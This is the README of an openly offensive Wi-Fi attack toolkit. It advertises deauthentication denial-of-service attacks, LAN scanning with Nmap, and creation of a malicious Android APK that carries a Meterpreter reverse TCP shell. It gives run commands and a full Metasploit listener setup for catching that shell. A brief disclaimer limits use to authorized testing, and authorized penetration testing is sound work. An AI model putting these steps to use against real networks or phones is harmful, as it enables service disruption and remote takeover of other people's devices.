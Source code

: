 # VivekXploit - ULTIMATE Wi-Fi Attack Toolkit

```
__     ___           _    __  __      _       _ _    
 \ \   / (_)_   _____| | __\ \/ /_ __ | | ___ (_) |_  
  \ \ / /| \ \ / / _ \ |/ / \  /| '_ \| |/ _ \| | __|
   \ V / | |\ V /  __/   <  /  \| |_) | | (_) | | |_  
    \_/  |_| \_/ \___|_|\_\/_/\_\ .__/|_|\___/|_|\__|
                                |_|                  
             V i v e k X p l o i t - ULTIMATE
```

## 🔥 Overview

Ultimate is an advanced Python-based Wi-Fi attack toolkit for ethical hackers. It features deauthentication attacks, Nmap network scanning, and Android reverse shell payload generation via Metasploit.Designed for **authorized penetration testing and educational use**. It combines:

* ✅ **Deauthentication (DoS) attacks** on Wi-Fi networks
* ✅ **Nmap scanning** of local networks
* ✅ **Android payload creation** using Metasploit (`msfvenom`)

Created by: **Vivek Dhobale**

## 🚀 Features

| Feature                  | Description                                              |
| ------------------------ | -------------------------------------------------------- |
| 🔺 Deauth Attack         | Scan and disconnect clients from selected Wi-Fi networks |
| 🌐 Nmap Scanner          | Discover all live devices in your local subnet           |
| 📱 Payload Generator     | Create a malicious APK for Android reverse TCP shell     |
| 🔌 Wi-Fi Adapter Support | Works with external adapters in monitor mode             |
| 📂 Log Handling          | CSV files automatically moved to backup folder           |

## ⚙️ Requirements

* OS: **Kali Linux or Parrot OS**
* Python 3.6+
* Root privileges (`sudo`)
* External Wi-Fi adapter (e.g. Alfa AWUS036NHA)
* Tools installed:

  * `airmon-ng`, `airodump-ng`, `aireplay-ng`
  * `nmap`, `msfvenom`

Install Python requirements:

```bash
pip install -r requirements.txt
```

## 📥 Setup & Run

```bash
sudo python3 Vivekxploit_Ultimate_Cracker.py
```

## 🧪 Usage Instructions

### 🔹 Deauthentication Attack

1. Script detects your Wi-Fi adapters
2. Choose interface (e.g., wlan0)
3. Select target from scanned networks
4. Script sends continuous deauth packets

> Press `CTRL+C` to stop attack

---

### 🔹 Nmap Scan (Internal LAN)

* After deauth, select `1` to run network scan:

```
Do you want to run extra tools? (1) Nmap Scan (2) Generate Payload (3) Exit:
```

* Lists live hosts on your network (like 192.168.0.1–255)

---

### 🔹 Metasploit Payload Generator

* Select option `2`
* Enter your **LHOST (your IP)** and **LPORT (e.g., 4444)**
* Output: `vivek_payload.apk`
* Use with Metasploit listener:

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <your_port>
exploit
```

---

## 📡 Wi-Fi Adapter

To run monitor mode attacks, you **must use** a compatible external USB Wi-Fi adapter that supports injection (e.g., Alfa AWUS036NHA, TP-Link TL-WN722N v1).

## ⚠️ Legal Disclaimer

> This tool is for **educational and authorized penetration testing only**.
> Do not use it on networks you do not own or have permission to test.

Misuse of this tool can be illegal. The developer is not responsible for any damage caused.

## 👨‍💻 Author

* **Vivek Dhobale**
- GitHub: [VivekXploit](https://github.com/Vivek-Dhobale)  
- Email: vivek.m.dhobale@gmail.com
- LinkedIn:[Vivek-Dhobale](https://www.linkedin.com/in/vivek-dhobale-vr)

---

Made with ❤️ for ethical hackers and learners.

---

**⭐ If this project was helpful, please consider to leaving a **star** to support it!**
